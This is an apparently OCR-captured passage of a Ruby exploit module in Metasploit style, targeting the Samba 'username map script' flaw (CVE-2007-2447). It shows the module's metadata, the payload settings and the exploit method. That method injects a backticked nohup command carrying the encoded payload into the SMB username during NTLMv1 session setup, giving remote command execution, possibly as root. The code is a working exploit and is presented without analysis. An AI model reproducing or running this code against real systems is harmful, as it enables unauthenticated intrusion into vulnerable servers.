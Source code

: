 ```
                                            [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                                    ],
                            'Platform'       => ['unix'],
                            'Arch'           => ARCH_CMD,
                            'Privileged'     => true, # root or nobody user
                            'Payload'        =>
                                    {
                                            'Space'    => 1024,
                                            'DisableNops' => true,
                                            'Compat'      =>
                                                    {
                                                            'PayloadType' => 'cmd',
                                                            # *_perl and *_ruby work if they are installed
                                                            # mileage may vary from system to system..
                                                    }
                                    },
                            'Targets'        =>
                                    [
                                            [ "Automatic", { } ]
                                    ],
                            'DefaultTarget'  => 0,
                            'DisclosureDate' => 'May 14 2007'))
    
                    register_options(
                            [
                                    Opt::RPORT(139)
                            ], self.class)
            end
    
    
            def exploit
    
                    connect
    
                    # lol?
                    username = "/=`nohup " + payload.encoded + "`"
                    begin
                            simple.client.negotiate(false)
                            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                    rescue ::Timeout::Error, XCEPT::LoginError
                            # nothing, it either worked or it didn't ;)
                    end
    
                    handler
            end
    
    end
    
```
